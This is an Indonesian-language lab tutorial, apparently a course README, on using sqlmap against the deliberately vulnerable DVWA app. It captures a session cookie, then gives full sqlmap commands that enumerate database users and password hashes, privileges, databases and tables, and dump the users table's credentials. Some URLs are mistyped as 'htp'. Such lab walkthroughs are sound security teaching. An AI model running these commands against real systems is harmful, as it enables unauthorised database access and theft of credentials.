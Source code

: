 ## LESSON 7

Inti dari Lesson 7 adalah mendapatkan 4 hal, yaitu:
1. **List** dari **Database Management Usernames dan Passwords**
2. **List** dari **Database**
3. **List** dari **Table** yang ada di dalam **Database** tertentu
4. **List** dari **Username** dan **Password** yang ada di dalam **Database**

**NOTE**
- IP yang digunakan adalah sesuai dengan IP tempat DVWA ter-deploy

### Langkah-langkah

**A. Mendapatkan PHP Cookie**
1. Lakukan **Tamper Data** ke dalam **DVWA**. Lalu klik **SQL Injection** dan masukkan angka **1** ke dalam **Text Box** lalu klik **Submit**. Lalu lakukan hal yang sama dengan **Tamper Data** di **Lesson** sebelumnya.

![SS 1](LESSON_7/1.png)

2. **Copy** **Referer Link**

![SS 2](LESSON_7/2.png)

3. **Paste** ke dalam **Notepad**

![SS 3](LESSON_7/3.png)

4. **Copy* **Cookie Information**

![SS 4](LESSON_7/4.png)

5. **Paste** ke dalam **Notepad**

Masukkan command

![SS 5](LESSON_7/5.png)

**B. Menggunakan SqlMap untuk Mendapatkan User dan Database Sekarang**
1. Masuk ke dalam **SqlMap** dan lakukan command berikut

```
cd /pentest/database/sqlmap
ls -l sqlmap.py
./sqlmap.py -u "htp://192.168.1.103/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=v0o6r5agj13d6ngqspllu9i6b2; security=low" -b --current-db --current-user
```

**NOTE**
- Untuk command setelah **-u** menggunakan **Referer Link** yang didapatkan
- PHPSESSID diisi dengan **Cookie** yang didapatkan
- Jika terdapat pilihan **y/n** maka pilih **y**

![SS 6](LESSON_7/6.png)

Didapatkan **User** dan **Database** yang digunakan sekarang

![SS 7](LESSON_7/7.png)

**C. Menggunakan SqlMap untuk mendapatkan Username dan Password Database Management**
1. Lakukan command berikut

```
./sqlmap.py -u "htp://192.168.1.103/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=v0o6r5agj13d6ngqspllu9i6b2; security=low" --string="Surname" --users --password
```

![SS 8](LESSON_7/8.png)

Didapatkan **Username** dan **Password** yang ada di dalam **Database Management**

![SS 9](LESSON_7/9.png)

2. Masukkan command berikut untuk mendapatkan **Database Privileges** untuk **User** yang baru ditambah **sani_hacker**

```
./sqlmap.py -u "htp://192.168.1.103/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=v0o6r5agj13d6ngqspllu9i6b2; security=low" -U db_hacker --privileges
```

![SS 10](LESSON_7/10.png)

Didapatkan **Privileges** dari **User** yang diinginkan

![SS 11](LESSON_7/11.png)

**D. Mendapatkan List dari Semua Database**
1. Lakukan command berikut

```
./sqlmap.py -u "htp://192.168.1.103/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=v0o6r5agj13d6ngqspllu9i6b2;  security=low" --dbs
```

![SS 12](LESSON_7/12.png)

Didapatkan **Database** yang ada

![SS 13](LESSON_7/13.png)

**E. Mendapatkan Tables dan Contents dari Database Tertentu**
1. Lakukan command berikut

```
./sqlmap.py -u "htp://192.168.1.103/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=v0o6r5agj13d6ngqspllu9i6b2;   security=low" -D dvwa --tables
```

![SS 14](LESSON_7/14.png)

Didapatkan **Tables** dari **Database** yang ditarget

![SS 15](LESSON_7/15.png)

2. Lakukan command berikut untuk mendapatkan **Columns** dari **Table** **dvwa.users**

```
./sqlmap.py -u "htp://192.168.1.103/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=v0o6r5agj13d6ngqspllu9i6b2;   security=low" -D dvwa -T users --columns
```

![SS 16](LESSON_7/16.png)

Didapatkan **Tables** dari **Database** yang ditarget

![SS 17](LESSON_7/17.png)

3. Lakukan command berikut untuk mendapatkan **User** dan **Password** dari **Table** **dvwa.users**

```
./sqlmap.py -u "htp://192.168.1.103/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=v0o6r5agj13d6ngqspllu9i6b2;   security=low" -D dvwa -T users -C user,password --dump
```

![SS 18](LESSON_7/18.png)

Didapatkan **User** dan **Password** dari **Database** yang ditarget

![SS 19](LESSON_7/19.png)

### Kesimpulan Lesson 7

Menggunakan **SqlMap** dapat menemukan informasi mengenai **Database** yang menjadi target
